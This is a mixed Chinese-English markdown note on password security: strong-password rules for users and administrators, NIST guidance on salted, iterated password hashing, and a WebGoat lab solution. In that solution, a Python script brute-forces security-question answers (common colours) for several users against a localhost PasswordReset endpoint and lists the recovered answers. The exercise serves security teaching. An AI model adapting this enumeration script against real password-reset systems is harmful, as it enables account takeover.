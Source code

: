 # 强密码手册

## 强密码原则

强破解 + 容易记

### 对用户

1. 不用常见弱密码
2. 长度8位以上
3. 字符、数据、特殊符号都要用
4. use different passwords for different accounts
5. use two factor authentication。If possible, use two factor authentication methods to add an extra layer of security to your accounts.

### 对管理者

1. no composition rules：Do not request the user to e.g. use at least one upper case letter and a special character on their password. Give them the opportunity to, but do not force them!
2. 不要密码提示。If you wanted people have a better chance at guessing your password, write it on a note attached to your screen.
3. 不要安全问题。 Security questions, also known as knowledge-based authentication (KBA) are outdated. Asking a user “What’s the name of your pet?” or something similar to check if it’s really him, is pretty unsecure.`http://goodsecurityquestions.com/`
4. 不必强制定期更新密码。如果你没有强制更新，用户会更容易选择强密码
5. **最小**长度为8。
6. 支持所有Unicode字符。同时包括emojis和空格
7. 禁止用户选择123456等常见弱密码

## 易用性“备忘”建议

### 对用户

1. 密码一部分所有网站通用如“#”+姓名简写，另一部分各网站不同如，淘宝网为“tbw”；
2. 使用密码管理工具，如“1Password”；
3. passphrases，如，https://www.rempe.us/diceware/#eff。（The longer the better）

### 对开发者

1. 允许粘贴密码。Users should be able to use the "paste" functionality when entering a password. Since this facilitates the use of password managers, it also increases the likelihood that the user will choose a strong password.
2. allow to display the password。 Password inputs should have an option to display the entered password to assist the user in successfully entering a password.
3. offer a strength meter。Add a strength meter on the password creation page to help the user to choose a strong and secure password.

## 密码存储

## Storing passwords

After a strong and secure password was created, it also has to be stored in a secure way. The NIST gives recommendations on how applications should handle passwords and how to store them securely.

### How should a password be stored?

- first of all: **use encryption and a protected channel for requesting passwords**
  The verifier shall use approved encryption and an authenticated protected channel when requesting memorized secrets in order to provide resistance to eavesdropping and MitM (Man-in-the-middle) attacks.
- **resistant to offline attacks**
  Passwords should be stored in a form that is resistant to offline attacks.
- **use salts**
  Passwords should be salted before storing them. The salt shall have at least 32 bits in length and should be chosen arbitrarily so as to minimize salt value collisions among stored hashes.
- **use hashing**
  Before storing a password it should be hashed with a one way key derivation function. The function takes the password, the salt and a cost factor as inputs and then generates a password hash.
  Examples of suitable key derivation functions:
  - Password-based Key Derivation Function 2 ([PBKDF2](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-132)) (as large as possible ⇒ at least 10.000 iterations)
  - [BALLOON](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-132)
  - The key derivation function shall use an approved one-way function such as:
    - Keyed Hash Message Authentication Code ([HMAC](https://pages.nist.gov/800-63-3/sp800-63b.html#FIPS198-1))
    - any approved hash function in [SP 800-107](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-107)
    - Secure Hash Algorithm 3 ([SHA-3](https://pages.nist.gov/800-63-3/sp800-63b.html#FIPS202))
    - [CMAC](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-38B)
    - Keccak Message Authentication Code (KMAC)
    - Customizable SHAKE (cSHAKE)
    - [ParallelHash](https://pages.nist.gov/800-63-3/sp800-63b.html#SP800-185)
- **memory hard key derivation function**
  Use memory hard key derivation functions to further increase the needed cost to perform attacks.
- **high cost factor**
  The cost factor (iteration count) of the key derivation function should be as large as verification server performance will allow. (at least 10.000 iterations)

## 安全问题

```python
import requests
import json
from os.path import abspath, dirname

"""
需要自己改
"""
base_url = "http://localhost:8080"
relative_url = "/WebGoat/PasswordReset/questions"

cookie = {
    "JSESSIONID":"46439A2C88C45786DABA7007969E3574",
    "WEBWOLFSESSION": "BC69F44B500560B73D40FD84141A9B9E"
}
common_color_set = ["red", "orange", "yellow", "green", "cyan", 
        "blue", "indigo", "violet", "purple", 
        "magenta", "pink", "brown", "white", 
        "gray", "black"]
user_set = ["tom", "admin", "larry"]

result = dict()
result_file_name = "xxe3.txt"
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

def guess_color(username, color):
    
    params = {
        'username': username, 
        'securityQuestion': color
    }
    r = requests.post(url, cookies=cookie, data=params)
    result_json = r.json()
    feedback = str(result_json['feedback']).strip()
    if (feedback == "Sorry the solution is not correct, please try again."):
        return False
    result[username] = color
    return True
    

if __name__ == "__main__":
    url = base_url + relative_url
    for user in user_set:
        for color in common_color_set:
            isRight = guess_color(user, color)
    with open(result_file_path, 'a') as f:
        for username, color in result.items():
            f.write(username + ": " + color + "\n")
```


result:

```txt
tom: purple
admin: green
larry: yellow
```

## Reference

National Institute of Standards and Technology（NIST）

https://www.passwordping.com/surprising-new-password-guidelines-nist/

https://pages.nist.gov/800-63-3/sp800-63b.html